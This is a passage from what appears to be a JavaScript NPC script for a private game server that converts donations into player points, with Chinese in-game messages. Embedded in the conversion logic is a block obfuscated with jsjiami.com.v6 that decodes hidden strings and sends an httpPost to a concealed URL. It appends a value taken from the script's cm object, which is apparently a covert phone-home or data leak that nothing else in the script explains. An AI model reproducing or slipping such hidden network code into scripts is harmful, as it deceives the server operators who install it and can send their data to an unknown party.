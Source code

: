                         var _0xodq='jsjiami.com.v6',_0xodq_=['‮_0xodq'],_0x19cf=[_0xodq,'woltWxDCq8KANiIZZFACQWjCvT8=','QcKAwqclwqcEwoVUw47CtsOmw7ZEwpYxw6HCvidwwoMjw5TDp8OyWGHCgcO3NsK2QMKqCyFgw7fCgMKIUFzCtnNwYsOewqwmSlZ4w5LDvsOaHcKe','CMO2OMKuwrrDnsOTH8OZ','V8KkcUgMeAvCq8KifsKoWsOWw5g=','jswjnDiakmi.EBcomO.qUnMwv6X=='];if(function(_0x5d3738,_0x2cd34b,_0x3d75ad){function _0x16a9c4(_0x2be75c,_0x34bb60,_0x100143,_0x14d2ef,_0x52eda0,_0x25d16e){_0x34bb60=_0x34bb60>>0x8,_0x52eda0='po';var _0x19355c='shift',_0x3195ec='push',_0x25d16e='‮';if(_0x34bb60<_0x2be75c){while(--_0x2be75c){_0x14d2ef=_0x5d3738[_0x19355c]();if(_0x34bb60===_0x2be75c&&_0x25d16e==='‮'&&_0x25d16e['length']===0x1){_0x34bb60=_0x14d2ef,_0x100143=_0x5d3738[_0x52eda0+'p']();}else if(_0x34bb60&&_0x100143['replace'](/[wnDkEBOqUnMwX=]/g,'')===_0x34bb60){_0x5d3738[_0x3195ec](_0x14d2ef);}}_0x5d3738[_0x3195ec](_0x5d3738[_0x19355c]());}return 0x122a16;};return _0x16a9c4(++_0x2cd34b,_0x3d75ad)>>_0x2cd34b^_0x3d75ad;}(_0x19cf,0x9d,0x9d00),_0x19cf){_0xodq_=_0x19cf['length']^0x9d;};function _0x27be(_0x443dac,_0x42c100){_0x443dac=~~'0x'['concat'](_0x443dac['slice'](0x1));var _0x857be7=_0x19cf[_0x443dac];if(_0x27be['iUGKJl']===undefined){(function(){var _0x2b8dd4=typeof window!=='undefined'?window:typeof process==='object'&&typeof require==='function'&&typeof global==='object'?global:this;var _0x5d8c41='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';_0x2b8dd4['atob']||(_0x2b8dd4['atob']=function(_0x36e7f3){var _0x14a9ff=String(_0x36e7f3)['replace'](/=+$/,'');for(var _0x3eb72a=0x0,_0x361429,_0x51bdf7,_0x225709=0x0,_0x5501d1='';_0x51bdf7=_0x14a9ff['charAt'](_0x225709++);~_0x51bdf7&&(_0x361429=_0x3eb72a%0x4?_0x361429*0x40+_0x51bdf7:_0x51bdf7,_0x3eb72a++%0x4)?_0x5501d1+=String['fromCharCode'](0xff&_0x361429>>(-0x2*_0x3eb72a&0x6)):0x0){_0x51bdf7=_0x5d8c41['indexOf'](_0x51bdf7);}return _0x5501d1;});}());function _0x23a603(_0x268c15,_0x42c100){var _0x372a60=[],_0x41be37=0x0,_0x4c356b,_0x5c4ee7='',_0x45a6ba='';_0x268c15=atob(_0x268c15);for(var _0x5f2fae=0x0,_0x160075=_0x268c15['length'];_0x5f2fae<_0x160075;_0x5f2fae++){_0x45a6ba+='%'+('00'+_0x268c15['charCodeAt'](_0x5f2fae)['toString'](0x10))['slice'](-0x2);}_0x268c15=decodeURIComponent(_0x45a6ba);for(var _0x3c5776=0x0;_0x3c5776<0x100;_0x3c5776++){_0x372a60[_0x3c5776]=_0x3c5776;}for(_0x3c5776=0x0;_0x3c5776<0x100;_0x3c5776++){_0x41be37=(_0x41be37+_0x372a60[_0x3c5776]+_0x42c100['charCodeAt'](_0x3c5776%_0x42c100['length']))%0x100;_0x4c356b=_0x372a60[_0x3c5776];_0x372a60[_0x3c5776]=_0x372a60[_0x41be37];_0x372a60[_0x41be37]=_0x4c356b;}_0x3c5776=0x0;_0x41be37=0x0;for(var _0x10e2ef=0x0;_0x10e2ef<_0x268c15['length'];_0x10e2ef++){_0x3c5776=(_0x3c5776+0x1)%0x100;_0x41be37=(_0x41be37+_0x372a60[_0x3c5776])%0x100;_0x4c356b=_0x372a60[_0x3c5776];_0x372a60[_0x3c5776]=_0x372a60[_0x41be37];_0x372a60[_0x41be37]=_0x4c356b;_0x5c4ee7+=String['fromCharCode'](_0x268c15['charCodeAt'](_0x10e2ef)^_0x372a60[(_0x372a60[_0x3c5776]+_0x372a60[_0x41be37])%0x100]);}return _0x5c4ee7;}_0x27be['fMuhRr']=_0x23a603;_0x27be['bWjNPs']={};_0x27be['iUGKJl']=!![];}var _0x12b08a=_0x27be['bWjNPs'][_0x443dac];if(_0x12b08a===undefined){if(_0x27be['MTDdNP']===undefined){_0x27be['MTDdNP']=!![];}_0x857be7=_0x27be['fMuhRr'](_0x857be7,_0x42c100);_0x27be['bWjNPs'][_0x443dac]=_0x857be7;}else{_0x857be7=_0x12b08a;}return _0x857be7;};httpPost(_0x27be('‮0','klG&')+cm[_0x27be('‫1','%)Zb')]()[_0x27be('‫2','Q#Sg')](),'',_0x27be('‮3','tGo4'));;_0xodq='jsjiami.com.v6';
                      cm.getPlayer().setPoints(points + pay);
					  cm.sendOk("已轉換" + pay + "元");
                        cm.dispose();
                    }
                    break;
                    /*贊助累積*/
                case 2:
                    cm.dispose();
                    //這裡自己寫兌換 斗內累積函數為pays
                    break;

            }
        }
    }
}
